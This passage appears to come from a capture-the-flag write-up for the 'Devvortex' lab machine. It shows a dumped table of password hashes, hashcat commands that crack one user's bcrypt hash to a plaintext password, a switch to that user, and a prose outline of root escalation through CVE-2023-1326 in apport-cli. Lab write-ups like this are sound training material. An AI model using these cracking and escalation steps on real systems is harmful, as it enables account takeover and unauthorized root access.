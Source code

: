 ```bash
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```
{% endcode %}

### Cracking Hashes

From the database dump, we get `logan`'s hash, so we will pass it locally to [`hashcat`](../../tools/passwords/hashcat.md) and hope for the best.

```bash
# Writing logan's hash to a file
echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > logan_hash
# Identifying the hash type
hashcat logan_hash
# Attacking the hash
hashcat -m3200 logan_hash /usr/share/wordlists/rockyou
# Printing the results
$ hashcat -m3200 logan_hash /usr/share/wordlists/rockyou --show
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

Now, we can switch user (`su`) to `logan` and read the user flag 🚩.

```bash
www-data@devvortex:/$ su logan
Password:
logan@devvortex:/$ cat ~/user.txt
b7b<REDACTED>4cc
```

### EoP[^12]

Checking if `logan` has any elevated privileges, we notice that it can run `apport-cli` as `sudo`.

{% code overflow="wrap" %}
```bash
logan@devvortex:/$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
{% endcode %}

[GTFOBins](https://gtfobins.github.io/) does not have anything related to that, but we are able to find something on [GitHub](https://github.com/diego-tella/CVE-2023-1326-PoC) which is related to [CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326). Since this exploit needs a report file to be present, we will need first to create one (Figure 9.1). Then we can use it to elevate our privileges (Figure 9.2) by spawing a bash shell from within the pager (Figure 10) and read the root flag 🚩 (Figure 9.3).


[^1]: Content Management System
[^2]: Remote Code Execution
[^3]: Database Management System
[^4]: Virtual Host
[^5]: Content Management System
[^6]: Living off the Land
[^7]: Proof of Concept
[^8]: Content Management System
[^9]: Proof of Concept
[^10]: Remote Code Execution
[^11]: Database Management System
[^12]: Elevation of Privileges